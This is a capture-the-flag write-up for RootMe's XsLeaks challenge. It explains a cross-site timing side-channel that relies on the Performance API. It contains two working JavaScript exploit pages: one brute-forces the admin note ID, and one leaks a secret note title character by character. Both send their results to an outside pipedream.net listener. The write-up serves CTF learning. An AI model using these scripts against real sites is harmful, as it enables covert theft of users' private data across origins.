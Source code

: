 ```yaml
---
title: "Rootme CTF - XsLeaks"
tags:
  - client side
  - web
  - CTF 
---
```


# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.

![img](../ctf/images/xs.png)

## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)